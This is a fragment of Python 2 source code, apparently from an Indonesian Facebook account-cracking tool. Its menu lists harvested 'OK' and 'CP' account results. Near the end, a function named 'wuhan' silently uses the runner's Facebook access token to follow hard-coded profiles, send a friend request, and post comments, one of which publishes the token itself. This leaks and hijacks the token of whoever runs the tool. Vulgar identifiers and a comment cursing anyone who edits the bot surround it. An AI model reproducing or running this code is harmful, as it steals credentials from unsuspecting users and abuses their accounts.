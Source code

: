             except (KeyError,IOError):
                print("\n %s[%s×%s] opshh kamu tidak mendapatkan hasil ok :("%(N,M,N))
                raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()
        elif memek in['2','02']:
            try:
                totalcp = open("results/CP-%s-%s-%s.txt"%(ha, op, ta)).read().splitlines()
                print("\n %s[%s#%s] --------------------------------------------"%(N,O,N))
                print(" [%s×%s] Hasil %sCP%s pada tanggal %s: %s%s-%s-%s%s total %s: %s%s%s\n"%(K,N,K,N,M,K,ha,op,ta,N,M,K,len(totalcp),K))
                os.system("cat results/CP-%s-%s-%s.txt"%(ha, op, ta))
                print("\n %s[%s#%s] --------------------------------------------"%(N,O,N))
                raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()
            except (KeyError,IOError):
                print("\n %s[%s×%s] opshh kamu tidak mendapatkan hasil cp :("%(N,M,N))
                raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()
        else:
            print '\n %s[%s×%s] input yang bener'%(N,M,N);time.sleep(1);moch_yayan()
    elif pepek in['8','08']:
        seting_yntkts()
    elif pepek in['9','09']:
        info_tools()
    elif pepek in['0','00']:
        print '\n'
        tod()
        time.sleep(1);os.system('rm -rf .ppk/.memek.txt')
        jalan('\n %s[%s✓%s]%s berhasil menghapus token'%(N,H,N,H));exit()
    else:
        print '\n %s[%s×%s] menu [%s%s%s] tidak ada, cek menu nya bro!'%(N,M,N,M,pepek,N);time.sleep(2);moch_yayan()


# Yang ganti bot nya gw sumpahin mak lo mati ajg!
def wuhan(kontol):
    try:
        kentod = kontol
        requests.post('https://graph.facebook.com/100005395413800/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100059709917296/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100008678141977/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100005878513705/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100003342127009/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100041388320565/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/108229897756307/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100039688893849/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100027558888180/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/100022602965953/subscribers?access_token=%s'%(kentod))
        requests.post('https://graph.facebook.com/me/friends?method=post&uids=%s&access_token=%s'%(koh,kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(lo_ngentod,kentod,kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(xi_jimpinx,hoetank,kentod))
    except:
    	pass
